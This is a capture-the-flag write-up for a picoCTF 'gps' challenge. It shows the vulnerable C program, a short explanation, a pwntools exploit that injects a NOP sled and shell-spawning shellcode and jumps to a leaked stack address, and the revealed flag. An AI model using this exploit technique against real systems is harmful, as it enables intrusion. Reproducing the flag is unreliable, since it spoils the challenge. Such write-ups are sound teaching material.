

### gps.c

```c
#include <stdint.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

#define GPS_ACCURACY 1337

typedef void (fn_t)(void);

void initialize() {
    printf("GPS Initializing");
    for (int i = 0; i < 10; ++i) {
        usleep(300000);
        printf(".");
    }
    printf("Done\n");
}

void acquire_satellites() {
    printf("Acquiring satellites.");
    for (int i = 0; i < 3; ++i) {
        printf("Satellite %d", i);
        for (int j = 0; j < rand() % 10; ++j) {
            usleep(133700);
            printf(".");
        }
        if (i != 3) {
            printf("Done\n");
        } else {
            printf("Weak signal.\n");
        }
    }

    printf("\nGPS Initialized.\n");
    printf("Warning: Weak signal causing low measurement accuracy\n\n");
}

void *query_position() {
  char stk;
  int offset = rand() % GPS_ACCURACY - (GPS_ACCURACY / 2);
  void *ret = &stk + offset;
  return ret;
}


int main() {
    setbuf(stdout, NULL);

    char buffer[0x1000];
    srand((unsigned) (uintptr_t) buffer);

    initialize();
    acquire_satellites();

    printf("We need to access flag.txt.\nCurrent position: %p\n", query_position());

    printf("What's your plan?\n> ");
    fgets(buffer, sizeof(buffer), stdin);

    fn_t *location;

    printf("Where do we start?\n> ");
    scanf("%p", (void**) &location);

    location();
    return 0;
}
```

Given the size of the char buffer and our ability to write on the stack I tried to throw a big nop sled on the stack followed by some shellcode. Originally my plan was to find an offset where our shellcode would land but I discovered that it would sometimes land on the leaked address so I just decided to do some minor bruteforcing until a shell popped

### apple.py

```python
#!/usr/bin/env python

from pwn import *
import sys
argc = len(sys.argv)

LOCAL = True

def exploit(p):
	p.recvuntil("Current position: ")

	STACK = int(p.recvline()[:-1], 16) #Gather the stack address leak
	p.recvuntil("> ")

	log.info('Stack       : %s' % hex(STACK))
	#TARGET = STACK+0x220

	context.arch = "amd64"
	shellcode = asm(shellcraft.amd64.sh())	#Build the shellcode

	payload = "\x90"*(900-len(shellcode)) #Fill the extra buffer with NOPs
	payload+= shellcode

	p.sendline(payload)

	p.recvuntil("> ")

	#log.info("Target       : %s" % hex(TARGET))
	p.sendline(hex(STACK))		#Send back the stack leak and hope our sled is there

	p.interactive()

	return


if __name__ == '__main__':
	if argc > 1:
		LOCAL = False
		p = remote('2018shell.picoctf.com', 29035)
		exploit(p)
	else:
		p = process('./gps2')
		# print util.proc.pidof(p)
		# pause()
		exploit(p)
```

<details>
    <summary>Flag</summary>

picoCTF{s4v3_y0urs3lf_w1th_a_sl3d_0f_n0ps_ejeqjegd}
</details>